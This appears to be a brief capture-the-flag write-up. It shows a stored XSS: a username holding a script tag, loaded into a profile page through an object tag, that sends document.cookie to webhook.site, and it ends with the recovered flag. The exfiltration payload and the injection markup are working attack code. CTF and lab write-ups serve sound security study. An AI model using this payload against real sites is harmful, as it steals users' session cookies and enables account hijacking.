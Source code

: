 ```yaml
---
created: 2024-06-21T20:15
updated: 2024-06-21T22:48
---
```


> Ignite it to steal the cookie!

The endpoint `/username/:id` is open and will return plain text username. We can use this for our script payload.

```html
<script>fetch("https://webhook.site",{method:"POST",body:"flag ="+document.cookie})</script>
```

We will then just load it via a object tag in `profile`.

```html
<object data="/username/e2b49e44-9419-4881-8144-72d17223e3f2" type="text/html"></object>
```

```
FLAG{n0scr1p4_c4n_be_d4nger0us}
```
